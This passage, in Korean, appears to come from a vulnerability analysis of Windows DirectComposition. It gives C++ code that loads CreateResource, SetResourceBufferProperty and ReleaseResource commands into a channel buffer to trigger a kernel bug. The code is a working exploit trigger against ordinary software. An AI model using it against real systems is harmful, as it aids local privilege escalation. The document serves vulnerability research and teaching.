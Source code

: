 caller는 `NtDCompositionCreateChannel` 함수를 호출하고 `pMappedAddress` 주소를 리턴 받는다. 이후 `NtDCompositionProcessChannelBatchBuffer` 함수를 통해  `pMappedAddress` 주소에 명령어를 순차적으로 적재하면 된다. 마지막으로 ``NtDCompositionCommitChannel`` 함수를 호출해 적재한 명령어를 처리한다. 

취약점을 트리거 하려면 3개의 커맨드 적재가 필요하다. `CreateResource`, `SetResourceBufferProperty`, `ReleaseResource`

`CreateResource`는 리소스를 생성하는 명령어로 특정 타입의 객체를 생성하는데 사용된다. `CreateResource` 명령어는 총 16바이트 크기를 가진다.

* Command(4byte)
* Resource ID(4byte)
* Resource type(4byte)
* isSharedResource(4byte)

```c++
*(DWORD*)(pMappedAddress) = CreateResource; 	// from DCOMPOSITION_COMMAND_ID
*(HANDLE*)(pMappedAddress + 4) = 1;  			// Resource ID (a unique number) 
 
// For example, on Windows 20H2, 19042.804: 
//   0x58 == CInteractionTrackerMarshaler 
//   0x59 == CInteractionTrackerBindingManagerMarshaler 
*(DWORD*)(pMappedAddress + 8) = 0x59; // Resource Type 
*(DWORD*)(pMappedAddress + 12) = FALSE; 
 
ntStatus = NtDCompositionProcessChannelBatchBuffer(hChannel, 16, &dwArg1, &dwArg2);
```

다음으로 `SetResourceBufferProperty` 명령어를 적재한다. 이 명령어는 기본 16바이트에 sizeof(Data) 만큼을 더한 크기로 구성된다.

* Command(4byte)
* Resource ID(4byte)
* Sub-Command(4byte)
* Data Size(4byte)
* Data

```c++
*(DWORD*)pMappedAddress = SetResourceBufferProperty; 
*(HANDLE*)(pMappedAddress + 4) 	= 1; 				// Resource ID 
*(DWORD*)(pMappedAddress + 8) 	= subcmd; 			// Sub-Command 
*(DWORD*)(pMappedAddress + 12) 	= datasize; 		// Datasize 
CopyMemory(pMappedAddress + 16, data, datasize); 	// Data 
 
// Total size of command == 16 + datasize 
ntStatus = NtDCompositionProcessChannelBatchBuffer(hChannel, 16 + datasize, &dwArg1, &dwArg2);
```

마지막으로 `ReleaseResource` 명령어를 적재한다. 이 명령어를 통해 앞에서 생성한 `DirectComposition` 객체를 릴리즈한다. `ReleaseResource` 명령어는는 8바이트 크기를 가진다.

* Command(4byte)
* Resource ID(4byte)

```c++
*(DWORD*)(pMappedAddress) = ReleaseResource; 
*(HANDLE*)(pMappedAddress + 4) = 1; 				// Resource ID 
ntStatus = NtDCompositionProcessChannelBatchBuffer(hChannel, 8, &dwArg1, &dwArg2);
```
